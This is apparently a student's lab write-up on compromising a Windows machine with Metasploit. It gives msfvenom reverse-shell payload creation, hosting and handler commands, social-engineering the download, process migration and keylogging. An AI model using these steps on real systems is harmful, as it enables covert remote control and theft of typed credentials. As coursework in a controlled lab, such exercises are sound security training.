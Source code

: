 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By
- **KARTHICKKUMAR R**
- **212223040087**
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
![374794141-b98e3dbe-cbf4-465e-83aa-f1ac913b2a51](https://github.com/user-attachments/assets/7fb70284-b0b6-4d53-af00-a4f1daa6e134)


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
![374794574-094f111d-38e4-47a4-b950-8c0544a3463e](https://github.com/user-attachments/assets/52da8a93-49f4-473c-9e73-83ce4dd000bf)


copy the fun.exe into the apache ```/var/www/html ```folder
![374794668-1a19f712-d904-4e9a-9c3f-a0f824215d01](https://github.com/user-attachments/assets/45455309-7257-40d0-9d88-bea23f8e77c3)


Start apache server ```sudo systemctl apache2 start``` 
![374794788-2944d067-02b2-43fc-9487-5f9e71c393b7](https://github.com/user-attachments/assets/556408c4-1caf-44d5-84a1-b716d9d8d76e)


Check the status of apache2 ```sudo apache2 status```
![374794908-1577dcc8-8e32-4080-8459-521367056dc0](https://github.com/user-attachments/assets/5edb1496-ba44-4478-8ba4-853f472f8a8c)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
![374795103-d6bd1bdb-3064-45e8-b6b1-e22d2e80209f](https://github.com/user-attachments/assets/108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.
![374795180-7be60e9f-2ce3-487a-9668-8bdb282e8931](https://github.com/user-attachments/assets/2d3c9bbd-30bf-4db7-8957-4760d26234a1)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![374795286-596d3916-66f9-4605-8ae4-5dd21116b77a](https://github.com/user-attachments/assets/3b6d33dd-159f-4798-926d-22dece021d73)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

#### Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![374795471-d53176fa-7af0-4f05-b526-91713074335d](https://github.com/user-attachments/assets/70c71c8a-0ed9-42b7-a002-f07f1d50b459)


keyscan_dump Shows the keystrokes captured so far
![374795532-ec7c391d-62a6-4fdc-a2c3-ef383b6c8a57](https://github.com/user-attachments/assets/1b9359f7-97a1-4452-9cd8-4abba68f2246)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
